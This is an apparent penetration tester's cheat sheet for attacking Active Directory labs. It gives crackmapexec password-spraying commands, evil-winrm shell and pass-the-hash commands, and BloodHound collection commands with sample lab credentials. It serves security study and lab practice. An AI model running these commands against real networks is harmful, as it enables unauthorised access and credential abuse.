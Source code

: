 
<center><b><h3>Cracked password verification</h3></b></center>

- If you found a password then there might be chances that that password is for another user.


We will do that with the help of `crackmapexec`.

Checking of SMB 
```bash
crackmapexec smb 10.10.10.161 -u 'username' -p 'password'

# Pass userlist

crackmapexec smb 10.10.10.169 -u users_list -p 'Welcome123!' --continue-on-success
```

==***Checking username and password in the whole AD network:***==
```bash
crackmapexec smb 10.10.10.0/24 -u "username" -p "password" -d "MARVEL"
```

Checking of Winrm
```bash
crackmapexec winrm 10.10.10.161 -u 'username' -p 'password'
```

<center><i><h3>For remote access</h3></i></center>

```bash

ruby /opt/evil-winrm/wvil-winrm.rb -i 10.10.10.161 -u svc-alfresco -p <password>

# Pass the hash

evil-winrm -i 10.10.10.161 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6

or use `psexec.py`

```



***Shell Placement:*** `\appdata\local\temp`



<center>Nothing so far but have <b>credentials</b> of a user with no shell... </center>

We can invoke bloodhound to get the data

```bash
bloodhound-python -c all -u support -p baclfield --dns-tcp -d megabank.local -dc megabank.local -gc megabank.local -ns 10.10.10.192

```
<center><h3>Bloodhound for Privesc</h3></center>

```bash

# This is what you have to write to get the data
invoke-bloodhound -collectionmethod all -domain htb.local -ldapuser svc-alfresco -ldappass s3rvice

# Not an full fleged option
# Python remote data collection 
bloodhound-python -d htb.local -u svc-alfresco@htb.local -p s3rvice -gc forest.htb.local -c all -ns 10.10.10.161 -v

# One more 
bloodhound-python -c all -u ryan -p Serv3r4Admin4cc123! --dns-tcp -d megabank.local -dc megabank.local -gc megabank.local -ns 10.10.10.169

```
